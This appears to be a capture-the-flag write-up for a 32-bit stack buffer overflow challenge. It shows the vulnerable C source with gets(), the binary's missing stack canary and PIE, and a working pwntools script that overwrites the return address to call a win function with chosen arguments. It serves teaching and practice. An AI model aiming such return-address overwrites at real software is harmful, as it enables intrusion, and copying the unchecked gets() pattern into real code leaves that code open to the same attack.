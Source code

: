# BufferOverflow-2

Challenge Description:

> Control the return address and arguments and this time you'll need to control the arguments to the function you return to!.

> Hint1 : Try using GDB to print out the stack once you write to it.

## Analyzing code

We see that it is a 32 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled which means the addresses within the binary like the functions will be constant.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped`

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Similar to the previous challenges,gets() is called and the win function requires 2 arguements to print out the flag.
Arg1 = `0xCAFEF00D`
Arg2 = `0xF00DF00D`

In 32 bit architecture,arguements are passed using the stack itself unlike in 64 bit which uses registers. So when we overflow using gets,the stack should like shown below....

    Padding(Some no of bytes found using gdb/others)						Lower address
    Win_function_address
    Win_function_return_address(Does not matter in this case)
    Arg1(0xCAFEF00D)
    Arg2(0xF00DF00D)														Higher address

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

## Finding offset and creating exploit

The offset found was 112 bytes and the script written is shown below.

```python
from pwn import *

elf = ELF("./vuln",checksec=False)
p = elf.process()
#p = remote("saturn.picoctf.net", 50938)

win_function = 0x08049296

padding = b'A'*112

payload = padding
payload += p32(win_function)
payload += p32(0x41414141)	# Where will win return
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```

Running the above script gives us the flag below

![output of flag when run on the server](flag_output.PNG)
